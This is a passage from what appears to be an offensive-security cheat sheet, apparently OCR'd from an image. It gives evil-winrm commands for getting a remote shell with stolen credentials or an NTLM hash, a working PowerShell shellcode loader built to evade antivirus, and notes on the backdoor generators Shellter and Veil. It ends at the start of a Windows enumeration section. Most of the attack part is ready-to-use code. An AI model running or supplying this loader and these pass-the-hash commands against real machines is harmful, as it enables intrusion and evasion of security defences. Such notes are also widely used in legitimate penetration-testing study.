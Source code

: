 ```bash
#Enable WinRM
winrm quickconfig -force
#Obtain Command Shell with legit credentials
evil-winrm -u <username> -p <password> -i <IP address>
evil-winrm -u <username> -H <NTLM Hash> -i <IP address>
```
# AV-Evasion
### Manual PowerShell AV Evasion
```powershell
# Run `Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser` before running the `.ps1` script.
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
### Automation
	
- <mark>Shellter</mark>: #windows
	- a dynamic shellcode injection tool that uses a number of novel and advanced techniques to backdoor a valid and non-malicious executable file.
	- `.exe` only
- <mark>Veil</mark>: #windows
	- designed to generate metasploit payloads that bypass common anti-virus solutions.
	- supports various formats including `.exe`, `.ps1`, `.bat`
# Post-Exploitation
### Local-Enumeration
#### Windows
- <mark>System Information</mark>
```shell
#List patch infos:
"Systeminfo"
"wmic qfe get Caption,Description,HotFixID,InstalledOn"
```
- <mark>User & Groups</mark>
```shell
```